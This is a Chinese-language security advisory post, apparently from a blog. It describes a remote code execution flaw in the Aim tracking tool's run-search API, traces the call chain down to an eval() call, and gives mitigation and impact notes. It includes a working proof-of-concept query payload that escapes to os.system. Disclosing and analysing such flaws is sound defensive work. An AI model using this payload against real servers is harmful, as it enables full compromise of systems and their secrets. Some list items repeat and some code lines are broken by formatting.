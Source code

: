 #  Aim Web API 远程代码执行   
原创 Jacky  jacky安全   2024-03-07 20:28  
  
## 摘要  
- 漏洞类型：远程代码执行（RCE）  
- 产品：目标  
- 版本：>= 3.0.0（afaik）  
- 受影响的端点：  
 /api/runs/search/run/  
- 严重性：临界  
## 描述  
  
在aim  
项目中发现了一个关键的远程代码执行漏洞，特别是在/api/runs/search/run/  
端点中。该漏洞允许攻击者在服务器上执行任意代码，这可能会导致系统完全泄露。  
### 易受弱的代码  
  
该漏洞存在于theaimaim/web/api/runs/views.py  
文件中的therunrun_search_api  
函数中。该代码没有正确限制用户对RunView  
对象的访问，允许通过query  
参数执行任意代码。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hZR1w6JVBWdjfRIL6LjdN4nG6fH7WyIw8K2SrZ1TYicvzVeeYGZNWMQTyoBOzJOP9f0FAE60LLLk2RoNJeE3uVA/640?wx_fmt=jpeg "")  
​  
  
开始分析🧐  
```
@runs_router.get('/search/run/', response_model=RunSearchApiOut, responses={400: {'model': QuerySyntaxErrorOut}})
async def run_search_api(q: Optional[str] = '', limit: Optional[int] = 0, offset: Optional[str] = None, ...):
    from aim.sdk.sequence_collection import QueryRunSequenceCollection    repo = get_project_repo()    query = checked_query(q)    repo._prepare_runs_cache()    runs = QueryRunSequenceCollection(repo=repo, query=query, paginated=bool(limit), offset=offset, ...)    streamer = run_search_resul
t_stre
amer(runs, limit, ...)
    return StreamingResponse(streamer)

```  
### 功能呼叫链  
1. 端点处理程序：  
  
1.     - 端点：/api/runs/search/run/  
    - 位置：aim/web/api/runs/views.py  
    - 线路：#80  
    -   
    - 代码：```
streamer
 = run_search_result_streamer(runs, limit, ...)

```  
  
  
1. 端点：/api/runs/search/run/  
1. 位置：aim/web/api/runs/views.py  
1. 线路：#80  
1.   
1. 代码：```
streamer
 = run_search_result_streamer(runs, limit, ...)

```  
  
1. 迭代超过运行：  
  
1.     - 位置：aim/web/api/runs/utils.py  
    -   
    - 线路：#258  
    -   
    - 功能：run_search_result_streamer  
    - 代码：```
for 
run_trace_collection, progress in runs.iter_runs():   # ...
```  
  
  
1. 位置：aim/web/api/runs/utils.py  
1.   
1. 线路：#258  
1.   
1. 功能：run_search_result_streamer  
1. 代码：```
for 
run_trace_collection, progress in runs.iter_runs():   # ...
```  
  
1. QueryRunSequenceCollection.iter_  
runs（）  
：  
  
1. ​  
    - 位置：aim/sdk/sequence_collection.py  
    -   
    - 线路：#249  
    -   
    - 方法：  
    -   
    - iter_runs  
    - 代码：```
self.query.check(run=run_view)

```  
  
  
1. 位置：aim/sdk/sequence_collection.py  
1.   
1. 线路：#249  
1.   
1. 方法：  
1.   
1. iter_runs  
1. 代码：```
self.query.check(run=run_view)

```  
  
1. **Query.check（）：**  
1. ****  
1. 位置：aim/storage/query.py  
1.   
1. 线路：#190  
1.   
1. 方法：check  
1.   
1. 代码：```
eval(self._checker, restricted_globals, namespace)
```  
  
### 概念验证（PoC）  
  
以下POC演示了RCE漏洞：  
```
run.run.dataframe().query
("@run.run.__class__.__init__.__globals__['logging'].os.system('id')")

```  
  
利用对RunView对象的无限制访问，允许任意代码执行，导致服务器完全泄露，包括网络访问、文件系统、秘密和云元数据。  
### 减轻  
  
为了缓解此漏洞，建议：  
- **限制用户访问：**限制用户访问DataFrame等危险对象。  
  
- **实施适当的输入验证：**确保用户输入，特别是查询中使用的输入，经过适当验证和消毒，以防止代码注入。  
  
# 影响  
  
这种RCE漏洞可能会产生严重的后果，包括但不限于：  
- **网络泄露：**攻击者可以执行任意命令，这可能会导致网络泄露。  
  
- **文件系统访问：**对文件系统的完全访问允许攻击者读取、写入和删除文件，从而损害系统完整性和可用性。  
  
- **访问秘密：**访问文件系统内的敏感数据，包括环境变量、秘密和潜在的云元数据。  
  
- **数据泄露：**执行任意代码的能力为攻击者提供了泄露敏感信息的手段。  
  
